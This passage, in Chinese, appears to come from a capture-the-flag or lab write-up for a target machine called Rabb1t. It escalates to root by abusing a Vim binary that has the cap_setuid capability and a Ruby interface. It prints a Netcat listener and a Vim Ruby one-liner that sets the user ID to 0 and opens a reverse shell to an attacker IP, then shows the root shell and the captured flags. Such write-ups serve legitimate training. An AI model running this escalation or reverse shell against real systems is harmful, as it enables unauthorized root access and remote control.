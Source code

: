 发现 `/usr/bin/vim` 被授予了 `cap_setuid+ep` 权限。这意味着 Vim 进程可以调用 `setuid()` 系统调用来改变其有效用户ID (EUID)。

## 2. 利用 Vim Capabilities 提权

检查 Vim 的编译选项，确认其是否支持可用于执行代码的脚本接口。

```
www-data@Rabb1t:/home/morii$ vim --version
...
-python            -python3           +ruby              
...
```

结果显示，虽然 Python 接口被禁用了，但 **Ruby (`+ruby`)** 接口是启用的。我们可以利用 Vim 的 Ruby 接口，结合 `cap_setuid` 权限来执行代码并提权至 root。

**提权步骤：**

1. 在攻击机上开启 Netcat 监听以接收 root shell。

   ```bash
   nc -lvnp 8888
   ```

2. 在靶机上执行一条精心构造的 Vim 命令。该命令利用 Ruby 接口首先将进程的 EUID 设置为 0 (root)，然后执行一个反弹 shell 命令。

   ```bash
   vim -c ':ruby Process::Sys.setuid(0); exec("busybox nc 192.168.205.128 8888 -e /bin/bash")'
   ```

攻击机成功接收到连接，获得了一个 `euid=0` 的 root 权限 shell。

# 3. 获取最终凭证

在 root shell 中，读取 `/root` 目录下的最终 flag 文件。

```bash
root@Rabb1t:/home/morii# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@Rabb1t:/home/morii# cat /root/root.txt /home/morii/user.txt 
flag{root_Alice’s Evidence}
flag{user_Down the Rabbit-Hole}
```

至此，渗透测试完成，成功获取了系统的 root 权限。